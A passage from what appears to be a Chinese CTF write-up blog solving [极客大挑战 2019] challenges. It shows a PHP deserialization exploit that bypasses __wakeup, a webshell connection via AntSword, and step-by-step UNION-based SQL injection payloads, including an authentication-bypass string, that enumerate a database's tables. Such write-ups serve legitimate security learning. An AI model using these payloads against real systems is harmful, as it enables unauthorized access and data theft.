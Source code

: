 ```php
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
为php反序列化，有两个条件`$this->password == 100`和`$this->username === 'admin'`，为了得到序列化的结果，加入代码如下：
```php
$a = new Name('admin',100);
$b=serialize($a);
echo $b;
```
得到：
![](https://img-blog.csdnimg.cn/20200315195240213.png)
**由于是private，private在序列化中类名和字段名前都要加上ASCII 码为 0 的字符(不可见字符)，所以我们要加%00或\0，满足个数为14**，即
`O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
**当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。**
所以改为：`O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
由于在index.php看到：
![](https://img-blog.csdnimg.cn/20200315195852167.png)
那么传值即可得到flag
![](https://img-blog.csdnimg.cn/20200315200000358.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [极客大挑战 2019]Knife
真就是白给的shell，白给的题目
![](https://img-blog.csdnimg.cn/20200315221437764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
使用蚁剑链接，密码为Syc，即可在根目录下得到flag
![](https://img-blog.csdnimg.cn/20200315221750248.png)
## [极客大挑战 2019]LoveSQL
万能密码登录`admin' or 1=1#`
![](https://img-blog.csdnimg.cn/20200315222130103.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到了pass：`9aa3f54e86651aa2d60aca2ffe2ff03b`
![](https://img-blog.csdnimg.cn/20200315222256353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现没啥用，看url发现可以试试sql注入，并没有过滤。。。。。
`?username=2&password=12' union select 1,2,3%23`发现有三列
![](https://img-blog.csdnimg.cn/20200315224001937.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`?username=2&password=12' union select 1,2,database()%23`  得到数据库geek
![](https://img-blog.csdnimg.cn/20200315224826708.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`?username=2&password=12' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())%23`  得到geekuser,l0ve1ysq1
![](https://img-blog.csdnimg.cn/20200315224917120.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)